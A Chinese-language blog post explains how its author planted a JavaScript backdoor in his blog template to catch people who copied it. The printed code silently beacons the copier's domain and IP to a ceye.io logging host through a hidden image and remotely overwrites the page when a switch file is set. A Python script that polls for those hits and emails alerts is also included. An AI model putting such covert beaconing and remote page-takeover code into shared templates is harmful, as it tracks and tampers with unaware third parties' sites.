 ```yaml
---
layout: post
author: Vulkey_Chen
title: "我为何在博客模板留后门"
date: 2019-01-23
music-id: 
permalink: /archives/2019-01-23/1
description: "博客模板后门"
---
```


# 前言

在前段时间，我在我博客的模板上加入了后门（JavaScript），今天去除，并将思路简单的写出来。

## 为什么留后门呢？

**起因**：在前不久，团队官网模板就被偷走，很让人生气，抄袭者团队（以下简称为：A）没有打一声招呼就拿走了，但可笑的是A并没有在模板中修改JavaScript文件的外链引用，而是直接使用我们的JavaScript文件，所以简单的利用JS修改了一下其主页，提醒了下他，经过后来A主动与我联系并道歉，这件事情才结束～

让我吃惊的是，这件事之后我发现我博客主题模板被拿走了，是的，不止一个哥们。

我在我的博客项目中说明了`https://github.com/gh0stkey/gh0stkey.github.io`

> 个人博客 gh0st.cn 模版来自：https://github.com/heiswayi/the-plain 在原基础上增加了分页、网易云音乐播放器等功能（做了一些排版细节上的调整），拿之前告诉我下，谢谢！

因为博客采用的是Github Pages + Jekyll，所以需要依赖于Github的进行托管，模板也就自然而然的可以直接`git clone`下来，模板也是我进行二次修改的，我觉得起码要尊重下作者，在博客主题或项目之类的进行说明，打声招呼也行，一声不吭的拿走是几个意思......

有个好兄弟说过这样一段话，望周知：

> 参考别人的研究成果，注明来源是基本素质，每个人都应该构建一个和谐积极向上的氛围，知道的人不愿意分享的原因就是不被别人认可，互相认可才能进步，现在理解一些师傅的苦衷了，挺悲哀的。请各位在以后的学习生涯上，尊重别人的分享，认可他人，互相感染才能进步。

# 关于后门

我是一个“重度洁癖患者”，不喜欢自己的任何东西带上任何污点。包括对于在自己博客模板中加入后门，这对我来说是一件带有“大污点”的事情，所以思考了很久决定加上后门。

## 后门的构建

### JavaScript 后门

模板后门选择的是JavaScript外链引用，而JavaScript的内容构建步骤如下：

**1.判断是否是自己的域名（这个正则写的不严谨是可以被绕过的，例如：`gh0st.cn.bypass.cn`）：**

```javascript
var host = document.location.host; //获取host
var reg = new RegExp(/gh0st.cn/); //创建正则
var isok = reg.test(host); //匹配结果：False\True
if(!isok){//判断
	...code
}
```

**2.触发式：在一个Web服务上添加了isopen.txt这个文件，内容为NO则不触发，内容为YES则触发。（选择触发式的原因是因为博客上线有本地调试这一环节，如果在本地就触发了，那岂不是得不偿失，没有造成什么直接损害～）**

```javascript
var xhr = new XMLHttpRequest(); //创建XMLHttpRequest
xhr.onreadystatechange=function(){ //请求成功则触发
	if(xhr.responseText == "YES"){ //判断请求网站的内容是否是YES，如果是则进行下一步
		document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>"); //页面内容修改
	}
}
xhr.open("GET","http://webserver/isopen.txt",true); //请求http://webserver/isopen.txt
xhr.send(null);
```

**3.既然选择了触发式的后门，那么就需要知道是谁偷了模板，这里利用的是`ceye.io`这个平台去记录“小偷”的域名和IP之类的东西：**

```javascript
var img = document.createElement("img"); //创建img标签
img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host; //设置img标签的src属性
img.stytle.display="none"; //设置img标签的样式的display属性为none（表示这个将图片隐藏）
document.body.appendChild(img); //在DOM节点(body)内加入img标签
```

**4.在博客模板的header.html中引用了外部的JS地址`<script src="http://webserver/xxx.js">`**

完整代码如下：

```javascript
var host = document.location.host;
var reg = new RegExp(/gh0st.cn/);
var isok = reg.test(host);
if(!isok){
	var img = document.createElement("img");
    img.src="http://myblog.你的地址.ceye.io/fuck?domain=" + host;
    img.stytle.display="none";
    document.body.appendChild(img);
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange=function(){
        if(xhr.responseText == "YES"){
        	document.write("<center><h1>Please tell me before using my template!By:[Vulkey_Chen]<center><h1>");
        }
    }
    xhr.open("GET","http://webserver/isopen.txt",true);
    xhr.send(null);
}
```

### Python 监控

利用`ceye.io`这个平台的API去实时监控，并且使用邮件发信通知。

导入Python模块 && 全局变量：

```python
import smtplib,requests,json,urlparse,sys
from email.MIMEText import MIMEText
from email.Utils import formatdate
from email.Header import Header

log = {}
```

**1.163邮件发信：**

```python
def send_mail(domain,ip):
	smtpHost = 'smtp.163.com'
	smtpPort = '25'
	fromMail = '邮箱账户'
	toMail = '邮箱账户,收信方'
	username = '邮箱账户'
	password = '邮箱密码'
	reload(sys)
	sys.setdefaultencoding('utf8')

	subject = u'博客监控到有人偷模板！'
	body = u"[小偷信息]\nDomain: {0} IP: {1}".format(domain,ip)

	encoding = 'utf-8'
	mail = MIMEText(body.encode(encoding),'plain',encoding)
	mail['Subject'] = Header(subject,encoding)
	mail['From'] = fromMail
	mail['To'] = toMail
	mail['Date'] = formatdate()

	try:
		smtp = smtplib.SMTP(smtpHost,smtpPort)
		smtp.ehlo()
		smtp.login(username,password)
		smtp.sendmail(fromMail,toMail.split(','),mail.as_string())
		print u"邮件已发送，监控信息："
		print body
	except Exception,e:
		print e
		print u"发送失败，监控信息："
		print body
	finally:
		smtp.close()
```

**2.ceye.io API调用获取信息，[个人中心](http://ceye.io/profile)可以看见API TOKEN，[API使用方法](http://ceye.io/api)：**

```python
def dnslog_monitor():
	api = "http://api.ceye.io/v1/records?token=你的TOKEN&type=http&filter=myblog"
	r = requests.get(api)
	json_data = json.loads(r.text)
	for i in json_data['data']:
		query = urlparse.urlparse(i['name']).query
		sb_domain = dict([(k, v[0]) for k, v in urlparse.parse_qs(query).items()])['domain']
		sb_ip = i['remote_addr']
		if sb_domain in log:
			pass
		else:
			log[sb_domain] = sb_ip
			send_mail(sb_domain,sb_ip)
```

**3.main函数：**

```python
def main():
	while True:
		dnslog_monitor()
```

## 后门的运行

python脚本挂在服务器跑了一段时间，也发现了一个哥们又拿走了我的博客模板：

![oh,no](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2019-01-23/0.png)

让他"用"了一段时间，便将isopen.txt的内容改为了YES（即触发了后门），其后来也与我联系，并进行了和解。

# 写在最后的话

也是因为“重度洁癖”，决定将模板后门去除。望君尊重技术、分享、作者，共勉！
